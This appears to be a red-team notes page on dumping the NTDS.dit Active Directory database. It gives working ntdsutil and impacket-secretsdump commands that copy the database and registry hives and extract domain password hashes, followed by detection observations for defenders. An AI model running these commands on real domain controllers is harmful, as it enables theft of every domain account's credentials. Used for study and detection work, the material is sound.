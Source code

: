 ```yaml
---
description: >-
  Dumping and enumerating NTDS.dit - a file that contains information about
  Active Directory users (hashes!).
---
```


# NTDS - Domain Controller

## Execution

Dumping the required files using a native windows binary ntdsutil.exe to c:\temp:

{% tabs %}
{% tab title="attacker@victim" %}
```bash
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
{% endtab %}
{% endtabs %}

We can see that the ntds.dit and SYSTEM as well as SECURITY registry hives are being dumped to c:\temp:

![](../../.gitbook/assets/ntdsutil-attacker.png)

We can then dump password hashes:

{% tabs %}
{% tab title="attacker@local" %}
```bash
root@~/tools/mitre/ntds# /usr/bin/impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/ntds-hashdump%20%281%29.png)

## Observations

On the victim machine, no susprises:

![](../../.gitbook/assets/ntdsutil-procexp.png)

Monitoring commandline arguments is as usual a good idea as it can reveal attempts to dump ntds.dit:

![](../../.gitbook/assets/ntdsutil-cmdline.png)

Additionally, there are multiple Application logs that can indicate some activity around the ntds.dit which you may be interested in investigating further:

![](../../.gitbook/assets/ntds-appllication-log.png)

## References

{% embed url="https://adsecurity.org/?p=2362" %}

{% embed url="https://www.trustwave.com/Resources/SpiderLabs-Blog/Tutorial-for-NTDS-goodness-\(VSSADMIN,-WMIS,-NTDS-dit,-SYSTEM\)/" %}



